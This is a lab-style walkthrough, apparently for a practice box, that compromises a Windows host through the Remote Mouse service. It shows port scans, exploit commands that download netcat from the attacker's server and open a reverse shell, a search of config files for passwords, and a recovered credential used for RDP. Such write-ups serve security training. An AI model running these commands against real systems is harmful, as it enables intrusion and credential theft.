Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.243.199
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-20 11:31 IST
Nmap scan report for 192.168.243.199
Host is up (0.14s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
1978/tcp open  unisql
1979/tcp open  unisql-java
1980/tcp open  pearldoc-xact
3389/tcp open  ms-wbt-server
7680/tcp open  pando-pub

Nmap done: 1 IP address (1 host up) scanned in 41.21 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 1978,1979,1980,3389,7680 192.168.243.199
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-20 11:33 IST
Nmap scan report for 192.168.243.199
Host is up (0.15s latency).

PORT     STATE SERVICE        VERSION
1978/tcp open  remotemouse    Emote Remote Mouse
1979/tcp open  unisql-java?
1980/tcp open  pearldoc-xact?
3389/tcp open  ms-wbt-server  Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: REMOTE-PC
|   NetBIOS_Domain_Name: REMOTE-PC
|   NetBIOS_Computer_Name: REMOTE-PC
|   DNS_Domain_Name: Remote-PC
|   DNS_Computer_Name: Remote-PC
|   Product_Version: 10.0.19041
|_  System_Time: 2026-03-20T06:05:57+00:00
| ssl-cert: Subject: commonName=Remote-PC
| Not valid before: 2025-12-02T17:03:21
|_Not valid after:  2026-06-03T17:03:21
|_ssl-date: 2026-03-20T06:06:26+00:00; 0s from scanner time.
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 193.87 seconds
```
Immediately, we see some strange ports open. We can quickly search them up to see if they have any vulnerabilities.


We can see that port 1978, which is hosting the remote mouse service, might be vulnerable to arbitrary RCE.


https://www.exploit-db.com/exploits/46697


Note that from the searchsploit output, we also found another exploit that allows us to escalate privileges. We might be able to use it for later

### Initial Access

We can try running the exploit using Python2. Because, when we ran the same exploit using python3 it gave us unusual error.


Although the script returns that the exploit worked, we can’t really be sure. We can try to change it to download nc.exe instead.

Then we can try running the exploit again, but nc.exe is never downloaded from our server. Before we move on to something else, we can try another exploit for the same RemoteMouse service.

https://github.com/p0dalirius/RemoteMouse-3.008-Exploit


After downloading script, i served netcat via python server and then i tried to upload netcat to victim machine by running script.



```sh
python3 RemoteMouse-3.008-Exploit.py -t 192.168.104.199 -c 'powershell -c "curl http://192.168.45.189/nc.exe -o C:\Windows\Temp\nc.exe"'
```



I saw the script uploading netcat from my python server. To be able to get reverse shell i started my listener on 80 port and then i run netcat in victim machine via script.

```sh
python3 RemoteMouse-3.008-Exploit.py -t 192.168.104.199 -c 'C:\Windows\Temp\nc.exe 192.168.45.189 80 -e cmd'
```

And we received the shell.



### Privilege Escalation

First step, I noticed RDP is open. There could be some creds hiding around that have more privileges than this user has. But ran this first:

```cmd
whoami /all
```





**System Information**

It is windows 10 pro and have hot fixes so there are least chances for any kernel exploit.



**System Information**

It is windows 10 pro and have hot fixes so there are least chances for any kernel exploit.



I ran this command to check for any files that could contain password for administrator perhaps.

```cmd
findstr /SIM /C:"pass" *.ini *.cfg *.xml
```



We opened the file and found that we have password that is base64 encoded and it is for divine user but we have shell for divine user already. Let’s use this password to RDP into divine user. 

```CMD
more Users\divine\AppData\Roaming\FileZilla\recentservers.xml
```





`divine : ControlFreak11`

```sh
xfreerdp3 /v:192.168.104.199 /u:divine /p:'ControlFreak11' /cert:ignore /dynamic-resolution
```



We have already found public exploit for privilege escalation. Lets try.



https://www.exploit-db.com/exploits/50047



According to the steps:



Now what you went to do is press enter, you don’t need to save it. But I saved it, restarted the service, and redid the attack mentioned above from the exploit database.




